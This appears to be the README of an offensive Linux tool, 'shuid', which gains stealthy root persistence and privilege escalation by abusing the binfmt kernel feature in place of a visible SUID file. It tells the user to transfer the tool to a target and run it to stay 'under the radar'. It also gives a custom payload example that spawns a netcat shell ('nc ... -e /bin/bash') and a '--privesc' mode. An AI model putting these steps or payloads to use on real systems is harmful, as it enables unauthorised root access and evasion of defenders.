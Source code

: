 <div align=center>
<img src=./3BE95711-0067-40AD-8774-A9C09DD10DF8.png>
<sup>*<i>«shuid» stands for shadow SUID file</i></sup>
<pre><code><strong>Privileged persistence 
<br>without using noisy and detectable SUID 
<br>using <i>binfmt</i> Kernel feature instead</strong>
Also a good way to learn Nim and something new
</code></pre>
</div>

## Like at home! 🏡 <sup>(persistence)</sup>

* First transfer `shuid` on target
* Run it!<br><pre><code>./shuid</code></pre>

And that's all, you are under the radar. The process to obtain root shell will be outputted 


##### More granular

You have other possibilitles to sharpen the exploit. For example you can choose which SUID will hide your "shuid file" and trigger your payload (`-c`). And, of course, you can also custom the payload (`--payload`).
An example:
```shell
./shuid --file "/path/to/suid/file" --payload "nc 127.0.0.2 -e /bin/bash"
```

## Road to root! 🛣 <sup>(privesc)</sup>

Under certain circumstances, the trick can be used to gain elevated privileged. You can test it with:

```shell
./shuid --privesc
```

## [Understand the trick](TRICK.md)


<div align=center>
<sup>
All credits goes to <a href= https://github.com/Sentinel-One/shadowsuid/>Dor Dankner</a>, <a href= https://github.com/toffan/binfmt_misc>toffan</a> and <a href= https://www.hackthebox.com/home/users/profile/590762>uco2KFH</a> 
</sup>
</div>
